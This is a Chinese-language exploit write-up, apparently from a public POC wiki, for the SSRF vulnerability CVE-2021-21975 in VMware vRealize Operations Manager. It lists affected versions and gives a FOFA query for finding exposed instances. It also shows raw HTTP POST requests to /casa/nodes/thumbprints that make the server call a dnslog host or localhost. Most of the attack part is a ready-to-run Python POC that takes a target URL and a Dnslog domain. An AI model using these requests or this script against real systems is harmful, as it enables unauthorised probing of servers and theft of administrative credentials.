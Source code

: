 # VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

> [!NOTE]
>
> VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
>
> VMware:cloud_foundation: 4.x 3.x
>
> VMware:vRealize_suite_lifecycle_manager: 8.x

## FOFA

> [!NOTE]
>
> title="vRealize Operations Manager"

## 漏洞复现

访问登录页面如下

![](VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975.assets/16273635687280462.jpg)

发送请求包如下

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```

![](VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975.assets/16273635691375349.jpg)

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```

![](VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975.assets/16273635694818492.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

![](VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975.assets/1627363569874421.jpg)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> VMWare Operations vRealize Operations Manager API SSRF CVE-2021-21975 



![](VMware-vRealize-Operations-Manager-SSRF漏洞-CVE-2021-21975.assets/1627363570217358.jpg)


